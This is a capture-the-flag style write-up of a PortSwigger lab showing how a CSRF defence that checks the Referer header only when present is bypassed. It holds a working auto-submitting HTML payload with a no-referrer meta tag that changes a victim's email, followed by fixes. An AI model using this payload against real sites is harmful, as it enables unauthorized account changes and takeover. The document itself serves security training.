


# 🕸️ CSRF where Referer validation depends on header being present

> 🔐 Attack Type: CSRF (Referer Bypass)

**Platform:** PortSwigger  
**Category:** Cross-Site Request Forgery (CSRF)  
**Severity:** Medium

---

## 🧾 Summary

Bypassed CSRF protection by omitting the `Referer` header, allowing unauthorized email change on behalf of the victim.

---

## 🧨 Vulnerability

CSRF protection relies on `Referer` header presence in email change functionality

- **Endpoint:** `POST /my-account/change-email`
    
- **Cause:** Server validates `Referer` only when header is present
    

---

## ⚡ Impact

Attacker can perform unauthorized state-changing actions on behalf of a victim → account modification (email change) and potential account takeover.

---

## 🛠️ Exploit

- Captured legitimate `POST` request using Burp Suite
    
- Identified `Referer`-based validation
    
- Removed `Referer` header from the request
    
- Verified server still processed the request
    
- Observed successful email update via `302` redirect
    

```http
POST /my-account/change-email HTTP/2
Host: <lab_id>.web-security-academy.net
```

---

## 💥 Payload

```html
<meta name="referrer" content="no-referrer">
<form action="https://<lab_id>.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="test_csrf@test.com">
</form>

<script>
    document.forms[0].submit();
</script>
```

---

## 📸 Evidence

- **Expected Behavior:**
    


- **Request submitted without `referer` header:**
    


---

## 🛡️ Fix

- Do not rely on `Referer` header for CSRF protection
- Implement token-based CSRF protection
- Enforce validation regardless of header presence
- Use `SameSite` cookies (`Lax` or `Strict`)